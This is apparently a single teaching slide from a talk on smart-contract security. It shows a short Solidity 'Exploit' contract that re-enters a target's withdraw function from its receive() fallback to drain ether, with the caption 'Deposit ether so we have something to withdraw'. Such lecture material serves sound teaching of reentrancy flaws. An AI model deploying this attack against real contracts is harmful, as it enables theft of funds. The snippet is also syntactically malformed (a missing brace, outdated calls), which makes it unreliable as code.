

contract Exploit {
 function tryIt() public payable {
   target.deposit.value(1 ether)();
   target.withdraw(1 ether);
 }
  receive() external payable
   if (this.balance < 2 ether) {
     target.withdraw(1 ether);
 }
}

Deposit ether so we have something to withdraw
30